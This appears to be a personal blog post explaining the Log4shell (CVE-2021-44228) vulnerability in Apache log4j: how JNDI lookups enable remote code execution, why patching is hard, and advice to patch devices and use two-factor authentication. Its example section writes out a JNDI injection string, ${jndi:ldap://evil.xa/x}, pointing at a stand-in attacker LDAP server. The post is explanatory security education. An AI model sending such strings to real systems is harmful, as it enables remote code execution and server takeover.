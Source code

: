 ```yaml
---
title: "Log4shell Vulnerability"
categories:
  - General
---
```


WHEW, it certainly has been one hell of a year for cyber security, and it's only getting more intense. You may have heard of the recent vulnerability dubbed CVE-2021-44228, or better known as Log4shell. It has all cyber security professionals, hackers and businesses around the world very worried (or excited depending on where you stand on the issue). So what is Log4shell? Should you personally be worried about it? In this article I'll attempt to explain what it is and why this is such a big deal. Enjoy!

### What the hell is Log4shell?

Well first to understand what Log4shell is, we need to understand what underlying mechanism is being exploited. Let's start with **log4j**.

Log4j is a java library developed by Apache that is used to help log data. This logging mechanism allows for errors, authentication failures, user input, etc. to be logged into a format where they can be reviewed later for whatever reason. If you're a web application developer, this can be very useful. Log4j is also **open source**, which means that the code is available to be publicly viewed, used and changed as needed by the requirements of the user. Java (code and framework) is one of the most commonly used technologies in the world. It runs on (but not limited to) webservers, mobile devices and even cars. There are millions of devices that rely on Java, as well as log4j, making this vulnerability widespread and diverse.

Log4shell is the vulnerability for log4j that takes advantage of its lookup functionality and improper input validation. You can think of lookups in this context for log4j as a way to interpolate input upon logging a message. Lookups can be useful in the sense that they can pull data from remote resources as well as other applications if need be. The JNDI (Java Naming and Directory Interface) is the specific lookup available in log4j that was targeted in these attacks. A hacker can craft a special string that has a JNDI lookup make a request to a server that is under the attacker's control and then execute code remotely. It may sound difficult to do, but the exploit is quite simple. Let's take a look at the attack in a bit more depth in the next section.

### Log4shell Example

![log4shell]({{ site.url }}{{ site.baseurl }}/assets/images/log4j_attack.png)

The picture above shows a full example of how this vulnerability can be exploited by an attacker. Let's break this down:

1. The attacker crafts a malicious string that utilizes a JNDI lookup. The method for injecting this string can vary, but in this case, the attacker passed it in the user agent. The string ${jndi:ldap://evil.xa/x} tells the JNDI to connect to the attacker's evil LDAP server.

2. The string is passed to log4j for logging purposes.

3. Log4j takes the string, interpolates it and then queries the attacker's LDAP server. Remember, there is no input validation that is checking to see what is being passed. This means that log4j is happy to log any input it sees and query accordingly. 

4. The attacker's LDAP server responds to the query by giving the directory information that contains the malicious code.

5. The malicious code is then executed after being downloaded.

As we can see, this attack is quite simple yet very effective. There are many variations that an attacker can use to pass the string. The code executed could potentially set up a reverse shell on the webserver, and in doing so the hacker would then have remote control over the server. From there, the possibilities are endless.

### Conclusion 

This vulnerability is bad...

This is probably one of the biggest security vulnerabilities that has been discovered in recent history. I liken this to the [Heartbleed vulnerability](https://www.csoonline.com/article/3223203/what-is-the-heartbleed-bug-how-does-it-work-and-how-was-it-fixed.html) that affected OpenSSL years ago. Although they are different vulnerabilities entirely, there were similar circumstances surrounding them both; Both technologies where the code lived in were open source, and both were exploited as a **zero day attack**. Zero days are exploits that have not been caught, detected or mitigated (via a patch for example). Attackers are able to utilize zero days as long as there is nothing stopping them from exploiting it. Usually once a zero day has been brought to the attention of the general public, developers will create patches for it. This makes timing a very important factor in using these exploits. The debate whether open source is better than proprietary still continues on...

The challenge with log4j (as mentioned above), which makes it different that other vulnerabilities, is that java runs on a myriad of devices, which means log4j ultimately does as well. This makes patch management for log4shell very difficult. Identifying which devices are A) critical systems and B) vulnerable can be a difficult process. Companies right now are scrambling to patch all systems that they know of that contain the vulnerability. Cyber security experts are predicting that the effects of this vulnerability have not fully been realized. It is quite possible that the really good hackers have been able to use this exploit to get into a network, establish persistence and then "go dark". They may be biding their time in order to figure out how to move laterally around the network and perform whatever malicious deed they want. Only time will tell.

I think that what we're going to see in the future is an influx of supply chain attacks. Remember, while large companies like Apple or Google are actively patching and remediating devices, it doesn't mean their vendors are doing the same thing. As a matter of fact, larger companies can't force their vendors to patch devices or adhere to certain standards for cyber security. This creates a potential "in" for hackers as they can compromise a vendor and then work to get into the main company's network at some point.  

For all of us and our personal cyber security, it's hard to tell right now how you can be affected. We definitely have devices or technologies that run java and log4j, but that doesn't necessarily mean those devices are "easy" to perform this exploit on. An internet facing webserver is going to be easier to exploit than a Tesla for example (hopefully). However, you should definitely take inventory of devices you own and update them with the latest patches if available. Also, please make sure that any accounts you may have with any major institutions are secured with two factor authentication and strong passwords, as there's no telling if hackers have compromised these sites and will attempt to steal credentials in the future. 

Thank you for reading!










